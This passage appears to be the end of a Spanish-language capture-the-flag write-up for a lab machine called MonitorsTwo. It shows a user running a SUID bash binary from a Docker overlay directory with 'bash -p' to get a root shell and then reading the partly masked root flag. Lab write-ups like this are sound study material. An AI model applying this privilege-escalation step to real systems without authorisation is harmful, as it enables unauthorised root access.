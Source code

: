 Logramos obtener un shell con privilegios de root.

```bash
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# whoami
root
```

Finalmente, logramos acceder a la bandera de root.

```bash
bash-5.1# cd /root/
bash-5.1# ls
cacti  root.txt
bash-5.1# cat root.txt 
6d55555013136a9f****************
```

!Happy Hacking¡
